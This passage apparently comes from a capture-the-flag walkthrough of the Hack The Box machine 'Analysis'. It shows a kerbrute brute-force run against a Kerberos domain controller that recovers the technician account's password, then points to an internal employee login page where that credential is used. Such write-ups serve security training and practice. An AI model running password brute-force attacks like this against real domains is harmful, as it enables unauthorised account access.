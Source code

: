Lets check for the password

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ ./kerbrute bruteuser -d analysis.htb --dc analysis.htb passwords.txt technician
  
  __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 01/22/24 - Ronnie Flathers @ropnop

2024/01/23 13:52:57 >  Using KDC(s):
2024/01/23 13:52:57 >   analysis.htb:88

2024/01/23 13:52:57 >  [+] VALID LOGIN:  technician@analysis.htb:97NTtl*4QP96Bv
2024/01/23 13:52:57 >  Done! Tested 1 logins (1 successes) in 0.242 seconds

```

The result is applied to given page below.

VALID LOGIN: technician@analysis.htb:97NTtl\*4QP96Bv

```
http://internal.analysis.htb/employees/login.php
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/employees/login.php">http://internal.analysis.htb/employees/login.php</a></p></figcaption></figure>
